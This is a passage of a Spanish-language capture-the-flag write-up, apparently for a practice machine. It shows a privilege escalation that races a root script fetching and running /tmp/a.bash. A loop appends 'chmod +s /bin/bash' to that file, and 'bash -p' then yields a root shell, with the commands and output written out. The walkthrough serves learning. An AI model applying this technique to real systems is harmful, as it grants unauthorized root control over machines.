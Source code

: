 Analizando el script podemos ver que ejecuta un curl hacia el mismo web server a un archivo llamado `9842734723948024.bash` descargándolo y guardando dicho archivo como `/tmp/a.bash` luego prosigue a darle todos los permisos hasta que lo ejecuta y lo borra.

Esto me da la idea de ejecutar un script de manera indefinida el cual agregue contenido a este archivo `a.bash`  para que ejecute comandos nuestros. Creamos el script.

```bash
-bash-5.2$ nano a.sh 
-bash-5.2$ chmod +x a.sh
-bash-5.2$ cat a.sh
#!/bin/bash

while true :
do
    echo "chmod +s /bin/bash" >> /tmp/a.bash
done
-bash-5.2$ ./a.sh
```

Lo dejamos asi por uno o dos minutos y deberiamos tener el permiso s en `/bin/bash`

```bash
-bash-5.2$ ./a.sh
^C
-bash-5.2$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23 17:23 /bin/bash
-bash-5.2$ bash -p
bash-5.2# whoami
root
```
Hemos pwneado la maquina!
